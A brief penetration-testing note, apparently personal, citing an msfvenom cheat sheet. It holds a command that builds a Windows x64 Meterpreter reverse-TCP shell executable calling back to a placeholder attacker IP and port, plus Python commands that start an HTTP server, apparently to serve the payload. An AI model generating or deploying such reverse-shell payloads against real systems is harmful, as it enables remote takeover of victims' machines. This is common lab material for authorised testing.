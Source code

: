 https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe



try both if one of them dosen't work

python3 -m http.server 8080
```python2
python -m SimpleHTTPServer 8080
```
